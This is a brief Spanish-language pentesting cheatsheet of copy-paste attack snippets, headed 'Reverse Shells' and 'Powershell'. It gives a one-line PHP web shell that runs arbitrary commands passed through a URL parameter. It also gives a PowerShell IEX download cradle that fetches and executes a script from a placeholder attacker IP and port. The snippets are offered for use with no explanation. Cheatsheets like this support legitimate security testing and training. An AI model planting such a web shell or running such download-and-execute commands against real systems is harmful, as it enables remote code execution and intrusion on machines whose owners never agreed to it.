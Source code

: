 # Cheatsheet
Cosas copypaste

# Reverse Shells

Web Shell PHP
```
<?php system($_GET[cmd]);?>
```

# Powershell

Descargar binarios
```
powershell IEX(New-Object Net.WebClient).downloadString('http://IP:PORT/binario.binario')
```
